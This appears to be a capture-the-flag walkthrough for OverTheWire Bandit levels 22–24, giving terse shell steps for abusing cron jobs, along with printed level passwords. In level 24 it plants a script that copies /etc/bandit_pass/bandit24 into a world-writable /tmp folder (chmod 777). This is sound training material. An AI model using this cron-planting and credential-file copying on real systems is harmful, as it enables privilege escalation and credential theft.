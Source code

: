# level 22 :
-  ls /etc/cron.d/
- cat /etc/cron.d/cronjob_bandit22
- cat /usr/bin/cronjob_bandit22.sh
>#!/bin/bash
chmod 644 /tmp/t7O6lds9S0RqQh9aMcz6ShpAoZKF7fgv
cat /etc/bandit_pass/bandit22 > /tmp/t7O6lds9S0RqQh9aMcz6ShpAoZKF7fgv
- cat /tmp/t7O6lds9S0RqQh9aMcz6ShpAoZKF7fgv
> ### WdDozAdTM2z9DiFEQ2mGlwngMfj4EZff

# level 23 :
- ls /etc/cron.d/
- cat /etc/cron.d/cronjob_bandit23
-  cat /usr/bin/cronjob_bandit23.sh
- echo "I am user bandit23" | md5sum | cut -d ' ' -f 1
>8ca319486bfbbc3663ea0fbe81326349
- cat /tmp/8ca319486bfbbc3663ea0fbe81326349
> ### QYw0Y2aiA672PsMmh9puTQuhoz8SyR2G

# level 24 :
- ls /etc/cron.d/
- cat /etc/cron.d/cronjob_bandit24
- cat /usr/bin/cronjob_bandit24.sh
- mkdir /tmp/rand
- cd /tmp/rand
- ### Create a file called **script.sh** using vim or any other editor on the system and write the following code in the file.
- vim script.sh
- code to copy :
>#!/bin/bash 
---
 >cat /etc/bandit_pass/bandit24 > /tmp/rand/password
 - touch password
 - chmod 777 -R /tmp/rand


